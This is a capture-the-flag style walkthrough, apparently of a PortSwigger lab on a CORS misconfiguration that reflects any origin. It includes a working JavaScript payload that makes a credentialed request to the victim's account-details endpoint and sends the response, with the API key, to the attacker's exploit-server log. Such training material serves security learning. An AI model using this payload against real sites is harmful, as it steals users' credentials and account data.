 ```yaml
---
title: CORS vulnerability with basic origin reflection
date: 2025-10-21 00:00:00 +0800
categories: [Portswigger, Cross-origin resource sharing (CORS)]
tags: [portswigger, writeup, walkthrough, web, cors]     # TAG names should always be lowercase
description: In this post we will solve a CORS Lab on portswigger, have fun reading.
---
```


## Lab: CORS vulnerability with basic origin reflection

This website has an insecure CORS configuration in that it trusts all origins.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: `wiener:peter`

### Lab 1 Exploitation

Starting with exploring our website we will login with the creds provided and see the requests after that, we will find that there is a request after signing in called `/accountDetails` and when seeing the response we will find that it gives back the information related to our account and also there is a header called `Access-Control-Allow-Credentials: true` which suggesting that it may support CORS.

![img-description](/assets/img/PortSwigger/CORS/1/request.png)
_Request_

So to make sure if it supports CORS or not we will use the origin header and type any imaginary website to see if it will accepts it or not

![img-description](/assets/img/PortSwigger/CORS/1/cors.png)
_CORS_

and we will see that it is accepted in the response so let’s try to exploit it now via the exploit server

Put this script in the exploit server and send it to the victim, This script make a request via the victim browser to access his account details end point and as the “***Access-Control-Allow-Credentials: true”*** is there so we will get his account details easily because the request will be made with his credentials and we will receive our response via our log endpoint in the exploit server.

```
<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
```

and we will find that the apikey is now with us decode it via burpsuite, submit it and the lab is solved

![img-description](/assets/img/PortSwigger/CORS/1/api.png)
_Api Key_